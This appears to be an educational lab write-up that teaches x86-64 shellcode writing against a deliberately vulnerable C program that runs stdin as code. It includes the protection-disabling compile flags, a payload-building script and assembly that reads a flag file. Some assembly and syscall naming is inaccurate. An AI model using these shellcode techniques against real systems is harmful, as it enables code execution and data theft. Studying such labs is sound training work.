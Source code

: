 # A Challenge
Given the following C code can we write input that will actually be executed and *do something* like read a flag?
```C 
#include <string.h>
#include <unistd.h>

int main(int argc, char* argv[]){
	char* code[250];
	memset(code, 0, 250);
	
	read(0, code, 250);
	((void*)())code)(); // treat the code as a pointer to a function and run it
	return 0;
}

```
**To make this work we have to compile with specific flags to enable executing code from the stack. DONT DO THIS IN ANY OTHER CIRCUMSTANCES THIS IS SPECIFICALLY NOT INCLUDED SO THESE KINDS OF SECURITY VULNERABILITIES ARE MITIGATED**
Saving this code as vuln1.c we can create a target vulnerable binary using: 
```sh
gcc -g -z execstack -fno-stack-protector vuln1.c -o vuln1
```

## Creating Shell code
Well, if we want to read a flag we will need to first open a file, read it, and then write to STDOUT. 
We can start trying to craft a program in assembly to do exactly this, somewhat like the cat.asm program from 0x1.

And if we want any of this to happen when we pipe a raw stream of bits into the program we will need to manipulate the 
compiled and linked assembly. 

This kind of code is often called **shellcode** and it has unique qualities. For one, shell code has to be position
independent. Since we have no control of whats happening before our code is injected it must keep track of itself 
so as to not care about things like hardcoded or specific offsets in memory which will change randomly. 

Shellcode must also have null bytes removed, otherwise our stream of bits will have a NULL termination somewhere in it and 
will be incorrectly treated as a [string](https://bista.sites.dmi.unipg.it/didattica/sicurezza-pg/buffer-overrun/hacking-book/0x2a0-writing_shellcode.html&ved=2ahUKEwi0germhZOGAxVkkIkEHQFwA0sQFnoECA4QAw&usg=AOvVaw3fNBPqA9-I-586T-RSG7tE)

I write a small shell script for testing out different Assembly, take the compiled output and remove the NULL bytes,
write this data to a "payload" file, and then pipe that payload into the vuln1 program:

```bash
#!/bin/bash

binaryPayload=$1
targetBinary=$2

nasm -f elf64 $1 -o runme.o
ld -s runme.o -o runme
rm runme.o

shellcode=$(objdump -d runme | grep -Po '\s\K[a-f0-9]{2}(?=\s)' | sed 's/^/\\x/g' | perl -pe 's/\r?\n//' | sed 's/$/\n/')

echo 'open("payload","wb").write(b'"'"$shellcode"'"')' >> maker.py
python3 maker.py 
rm maker.py

# now pipe the shell code into our target and trace the system calls with strace
cat payload | strace ./$targetBinary
#EOF
```

Before reading a flag maybe lets try something simple, like.... printing a message to the console? 
We wrote code for echoing user supplied arguments in 0x1, but this is a bit different (also 64bit now). 

First thing we need to do is move the bytes of our message into memory. The write syscall is exepecting 
a pointer to our message to be in rdi. The rdx register needs to hold the length of our output. 
We also need to put out file descriptor for STDOUT (just 1) into rbx, and then move the value for the WRITE
syscall into rax. So can we try this?: 
```nasm
section .text
	global _start 
	
_start: 
	; move our message into memory
	xor rdi, rdi
	xor rcx, rcx 
	add rdi, 0x33323130 ;'0123'
	mov [rsi], rdi
	; the write syscall
	mov rdx, 5
	mov rax, 1
	mov rdi, 1
	syscall
	; exit
	xor rax, rax
	add al, 60
	syscall
```

*Lets try out our testshell script and save this as echo.asm:*


![echooo](https://raw.githubusercontent.com/cas1m1r/EDU/main/Assembly/0x4/helloShell.png)

By the way to figure out which registers need which arguments for every syscall you can find a table like this 

![syscalls](https://raw.githubusercontent.com/cas1m1r/EDU/main/Assembly/0x4/syscall_conventions.png)

from a website like [this](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/)

Awesome it worked! Okay so how about trying to read a flag or something?... more syscalls xD 

This one required a bit of thinking, because unlike the cat.asm program in 0x2 we can't setup
a local buffer to read into.  

First we meed to move the name of the file "flag.txt" into memory, and open it (Remember our byte order must be reversed because of how data is stored and read from the stack). 
That should be similar to the cat.asm program but slightly borrowing from what we just did: 
```nasm
_start: 
	xor rdi, rdi
	xor rcx, rcx
	mov rdi, 0x7478742e67616c66 	;txt.galf 
	mov [rdx], rsi
	xchg rdi, rdx
```
So we already have our filename now in rdi, now we just need to move the READ syscall number (2) into RAX and the file permissions mask into RDX
```nasm
	add al, 2
	xor rsi, rsi 
	mov rdx, 0777o
```
If were to just add an exit after this we should be able to see in strace whether we've opened 
the correct file for reading though: 

![missingNull](https://raw.githubusercontent.com/cas1m1r/EDU/main/Assembly/0x4/openFlagNoNullTermination.png)


Ahh intersting, the filename is getting mangled somehow. Well flag.txt is 8 bytes,
and at 9th we have a f instead of a null byte. Well f in hex is 0x66, so lets just subtract that value:

![fopen](https://raw.githubusercontent.com/cas1m1r/EDU/main/Assembly/0x4/FixingFileOpen.png)

**AWESOME IT WORKED!** 

So it looks like now we need to move the pointer to the file we just opened into rdi. Well using GDB I can see that its left in rax after the syscall.
Because we can't create a local buffer we could just use the space of the filename we created to hold the contents of what we read from the file?
So lets move that for the stack into rsi. Finally we need to move the length of the message into rdx (we made the flag file so we know its 27 bytes): 

![fileRead](https://raw.githubusercontent.com/cas1m1r/EDU/main/Assembly/0x4/FileRead.png)

**AYYY IT WORKED!** 

Okay now we just need to print the result! We can do that with the write syscall, which expects rdi to have pointer file (in this case STDOUT or 1).


Lets take a look at how we can debug this from GDB, here we can see the disassembly of the vuln1 main function:

![disass](https://raw.githubusercontent.com/cas1m1r/EDU/main/Assembly/0x4/disassMain.png) 

And also set a breakpoint for where our code will be called. We can run out program and pipe in the results from "payload" file using this syntax:
`r < payload` in the GDB terminal.

From here we can use stepi once to hop into our shellcode! 

![gdb](https://raw.githubusercontent.com/cas1m1r/EDU/main/Assembly/0x4/StepIn.png)

Okay now lets trying to use this visibilty to figure out how we can close the loop and actually write the contents of this flag file out. 
Stepping through our shellcode we can see that after the READ syscall we have the flag contents in RSI, which is already where we need our pointer to be for the WRITE CALL! 
The size is already in RDX from the READ call (which is the same place as WRITE), so all we need to do is:
	- Adjust RAX to be 1 for the WRITE syscall
	- change the file descriptor in RDI to 1 now because we want to write to STDOUT (before we read from an actual file)

![soClose](https://raw.githubusercontent.com/cas1m1r/EDU/main/Assembly/0x4/SoClose.png) 

well looking at GDB we can see RAX is 0x1b, so lets just subtract 0x1a. And then we can move 1 into rdi. And Voila!

![yay](https://raw.githubusercontent.com/cas1m1r/EDU/main/Assembly/0x4/success.png)
